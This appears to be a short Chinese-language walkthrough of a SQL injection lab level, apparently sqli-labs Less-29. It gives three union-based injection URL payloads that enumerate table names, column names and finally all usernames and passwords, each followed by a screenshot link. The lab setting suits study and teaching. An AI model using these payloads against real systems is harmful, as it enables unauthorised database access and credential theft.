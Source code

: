  

 爆表：`?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()-`

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less29-.assets/1838411-20200210140031138-1993887524.png)

 

 爆列：`?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less29-.assets/1838411-20200210140102165-570288047.png)

 

 爆用户名密码：`?id=-1' union select 1,2,group_concat(username,0x7e,password) from users--+`

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less29-.assets/1838411-20200210140135377-668664449.png)

 
